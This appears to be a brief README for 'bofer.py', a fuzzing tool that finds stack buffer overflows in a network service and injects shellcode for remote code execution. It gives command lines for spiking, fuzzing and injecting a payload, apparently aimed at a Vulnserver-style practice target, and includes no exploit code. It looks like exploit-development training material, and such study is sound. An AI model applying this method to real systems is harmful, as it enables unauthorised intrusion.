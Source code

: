 # Into

This script is intended for finding stack-based buffer overflows using fuzzing method and injecting shell code in it to achieve RCE.

## Spiking

* This function is used to test input parameters of the target for BoF

`bofer.py spike 127.0.0.1 80`


## Fuzzying

* This step is intended for finding BoF vulnerability and its offset
* Usage:
`bofer.py fuzz 127.0.0.1 80 -s 10`

Where `-s 10` is indicator for step length

## Injection

* Shell code can be injecting using this functions:

`bofer.py -x 'TRUN /.:/' -n $offset -c $payload inject 127.0.0.1 80`
